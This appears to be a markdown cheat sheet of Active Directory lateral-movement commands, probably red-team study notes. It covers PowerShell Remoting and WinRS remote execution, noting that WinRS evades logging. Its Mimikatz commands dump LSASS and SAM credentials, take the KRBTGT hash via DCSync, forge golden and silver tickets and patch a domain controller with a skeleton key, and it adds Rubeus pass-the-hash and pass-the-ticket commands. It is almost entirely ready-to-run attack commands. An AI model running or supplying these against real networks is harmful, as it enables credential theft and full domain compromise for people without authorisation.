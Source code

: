## AL Lateral Movement

- [PowerShell Remoting](#powershell-remoting)
    + [Enable PowerShell Remoting](#enable-powershell-remoting)
    + [Create Remote Session](#create-remote-session)
    + [Entering into Existing PSSession](#entering-into-existing-pssession)
    + [Remote Execution](#remote-execution)
- [WinRS](#winrs)
    + [Execute Remote Command](#execute-remote-command)
- [MimiKatz PowerShell Port](#mimikatz-powershell-port)
    + [Dump Credentials on Local Machine](#dump-credentials-on-local-machine)
    + [OverPass the Hash](#overpass-the-hash)
    + [Get KRBTGT Hash](#get-krbtgt-hash)
    + [Credentials from Credential Vault](#credentials-from-credential-vault)
    + [Patch a DC `lsass` process** allowing to use any user with single password. DA privileges are required.](#patch-a-dc--lsass--process---allowing-to-use-any-user-with-single-password-da-privileges-are-required)
    + [Golden Ticket](#golden-ticket)
    + [Silver Ticket](#silver-ticket)
    + [Skeleton Key Attack](#skeleton-key-attack)
- [Rubeus](#rubeus)
    + [OverPass The Hash](#overpass-the-hash)


### PowerShell Remoting
---
Uses TCP-5985. T
```powershell
# Check computers where PS Remoting can be used
C:> . .\Find-PSRemotingLocalAdminAccess.ps1
C:> Find-PSRemotingLocalAdminAccess
```

##### Enable PowerShell Remoting  
```powershell
C:> Enable-PSRemoting 
```
##### Create Remote Session 
```powershell
# Create a Session in Local Computer
C:> New-PSSession

# Create Session on Remote Computer
C:> $remote_computer = New-PSSesion -ComputerName <computer>

# Create Session on Multiple Computers
C:> $s1, $s2, $s3 = New-PSSession -ComputerName Server01,Server02,Server03
```
##### Entering into Existing PSSession
```powershell
# A Completelly New Session to Computer
C:> Enter-PSSession -ComputerName <computer>

# A session created previously with New-PSSession
C:> $remote_computer = New-PSSesion -ComputerName <computer>
C:> Enter-PSSession -Session $remote_computer
```
##### Remote Execution
```powershell
# Remote Execution With Credentials
c:> $SecPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force
C:> $Cred = New-Object System.Management.Automation.PSCredential('<domain>\<user>', $SecPassword)
C:> Invoke-Command -ComputerName <computer> -Credential $Cred -ScriptBlock {whoami}

# Run Local Script in Remote Computer
C:> Invoke-Command -FilePath c:\scripts\test.ps1 -ComputerName <computer>
C:> Invoke-Command -FilePath c:\scripts\test.ps1 -ComputerName (Get-Content <list_of_servers>)

# Run Command (Script Block) on Remote Computer
C:> Invoke-Command -ComputerName <host> -Credential <domain>\<user> -ScriptBlock {whoami;hostname}
C:> Invoke-Command -Scriptblock {Get-Process} -ComputerName (Get-Content <list_of_servers>)

# Execute Locally Loaded Function in Remote Computer
C:> Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName <host>

# Persistent Connection, Series of Commands Sharing Data
C:> $s = New-PSSession -ComputerName <computer>                             # Without this, 2 lines below wouldn't share data on $s
C:> Invoke-Command -Session $s -ScriptBlock {$p = Get-Process PowerShell}
C:> Invoke-Command -Session $s -ScriptBlock {$p.VirtualMemorySize}          # $sp is from previous command

```

### WinRS
---
```powershell
# Check computers where WinRS can be used
C:> . .\Find-PSRemotingLocalAdminAccess.ps1
C:> Find-PSRemotingLocalAdminAccess
```
Uses same port as PSRemoting, and evades Remoting Logging.
##### Execute Remote Command
```powershell
# Use `cmd`as command to get a shell
C:> winrs -remote:<computer> -u:<domain>\<user> -p:<password> <command>
```

### MimiKatz PowerShell Port
---
Requires Local Admin Privileges on computer where is run.
```powershell
C:> . .\Invoke-Mimikatz.ps1
```
##### Dump Credentials on Local Machine
```powershell
C:> Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```
##### Extract credentials from SAM
```powershell
C:> Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'
```
##### OverPass the Hash
```powershell
# Starts Powershell with logon type 9
C:> Invoke-Mimikatz -Command '"sekurlsa::pth /user:<user> /domain:<fqdn_domain> /aes256:<user_aes256key> /run:cmd.exe"'
```
##### Get KRBTGT Hash
```powershell
# Run on DC, Domain Admin privileges required
C:> Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <dc-hostname>

# DCSync: Domain Admin privileges required to run 
C:> Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\krbtgt"'
# DCsync for another domain
C:> Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\krbtgt /domain:<fqdn_domain>" "exit"'
```
##### Credentials from Credential Vault
```powershell
# Interesting Credentials are stored here, like credentials for scheduled tasks
C:> Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'
```
##### Patch a DC `lsass` process** allowing to use any user with single password. DA privileges are required.
```powershell
C:> Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <hostname_full_FQDN>
```
##### Golden Ticket
```powershell
C:> Invoke-Mimikatz -Command '"kerberos::golden /User:<username> /domain:<domain_fqdn> /sid:<domain_sid> 
    /aes256:<krbtgt_aes_key> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"'
    
# For Administrator User
C:> Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain_fqdn> /sid:<domain_sid> 
    /aes256:krbtgt_aes_key> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
##### Silver Ticket
```powershell
# Get Privileges to access HOST service as Administrator con host
C:> Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain_fqdn> /sid:<domain_sid> /target:<host_fqdn> 
    /service:HOST /rc4:<host_ntlm_hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"'
    
# Privileges for RPCSS service
C:> Invoke-Mimikatz -Command '0"kerberos::golden /User:Administrator /domain:<domain_fqdn> /sid:<domain_sid> /target:<host_fqdn>  
    /service:RPCSS /rc4:<host_ntlm_hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"'
    
# With this two tickets, can execute WMI commands on host
```
##### Skeleton Key Attack
```powershell
# To run on DC. Allows init session with password mimikatz
C:> Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"'
```
##### Export Tickets
```powershell
C:> Invoke-Mimikatz -Command '"sekurlsa::tickets /export"' 
```
### Rubeus
---
##### OverPass The Hash
```powershell
C:> Rubeus.exe asktgt /user:<username> /aes256:<aes256_key> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
C:> Rubeus.exe asktgt /user:<username> /ntlm:<ntlm_rc4_key> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

```
##### Pass the Ticket
```powershell
C:> Rubeus.exe ptt /ticket:<base64_TGT>
```
